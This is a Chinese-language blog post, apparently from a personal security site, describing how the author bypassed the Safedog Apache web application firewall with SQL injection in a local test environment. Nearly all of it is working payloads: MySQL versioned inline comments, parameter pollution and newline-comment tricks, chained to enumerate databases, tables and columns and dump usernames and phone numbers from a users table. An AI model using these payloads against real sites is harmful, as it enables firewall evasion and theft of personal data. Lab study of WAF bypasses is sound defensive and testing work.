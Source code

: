 ```yaml
---
categories:
    - bypass
tags:
    - bypass
    - sql注入
---
```

## 环境

```
win7 phpstudy
安全狗apache 版4.0.26655（最新）
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/01.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/02.png)

## 测试
添加`'`，报错，但是没触发
 
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/03.png)

添加`' and 1=1 --+`,触发安全狗

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/04.png)

## 绕过

### 使用内敛注释绕过

```
/*!select*/:  相当于没有注释
/*!12345select*/: 当12345小于当前mysql版本号的时候，注释不生效，当大于版本号的时候注释生效。
/*![]*/: []中括号中的数字若填写则必须是5位
```
使用
```
' or 1 and 1=1--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/05.png)

判断存在注入绕过
```
1' or -1 and -1=-1--+
1' or -1 and -1=-2--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/06.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/07.png)

判断列数

```
1' or 1 order by 1--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/08.png)

经测试`/*!50000*/`存在order by中间时会触发

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/09.png)

绕过:
```
1' or -1/*!22344order/*!22344by/*!22344*/1--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/10.png)

下面这两个也同样可以绕过
```
1' or -1/*!50000order/*!44444by/*!50000*/1--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/11.png)

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/12.png)

order by 测试处6列
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/13.png)

开始union select 查询，因为是参考，这是发现原文中的`/*!11544*/`已经不行了

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/14.png)

但是肯定是有绕过的方法的，于是`/!*22454*/`诞生了：
```
1' or -1/*!24454union/*!24454select/*!244541,2,3,4,5,6*/--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/15.png)

查询所有数据库名

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/16.png)

绕过`/!*22454*/`

```
1' /*!24454union/*!24454select/*!244541,2,3,4,group_concat(schema_name),6*/from information_schema.schemata--+
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/17.png)

查询表名


```
1' /*!24454union /*!24454select/*!244541,2,3,4,/*!24454group_concat(/*!24454table_name),6/*!24454from/*!24454information_schema.tables/*!24454where/*!24454table_schema=/*!24454database/*!24454()*/--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/18.png)

查询字段
原方法：

```
1' union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_schema=database() and table_name='users'--+
```
绕过用` in 代替and users 进行进制编码`,nb：
```
1' /*!24454union /*!24454select/*!244541,2,3,4,/*!24454group_concat(column_name),6 from information_schema.columns where 
table_schema in (database/*!24454()) and table_name in (0x7573657273)*/--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/19.png)



```
1'/*!24454union /*!24454select 1,2,3,4, group_concat(concat_ws(0x23,username,tel)),6 from users*/--+
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/20.png)

### 绕过方法二，url另类传参绕过安全狗

```
/test.php
?tel=/*&tel=1'union select 1,2,3,4, 
group_concat(column_name),6 from information_schema.columns 
where table_schema=database() and table_name='users' --+*/
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/21.png)


### 绕过方法三
使用`/*%!a*/`加上`%0a`加注释绕过
```
1'/*%!a*/unioN/*%!a*/-- www.safedog.com%0a select 1,2,3,4,  group_concat(column_name),6 from information_schema.columns  where table_schema=database () and table_name in (0x7573657273) --+
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-29/22.png)

## 参考学习

```
https://mp.weixin.qq.com/s/YbR829v48em8FbBskLwGxA
```

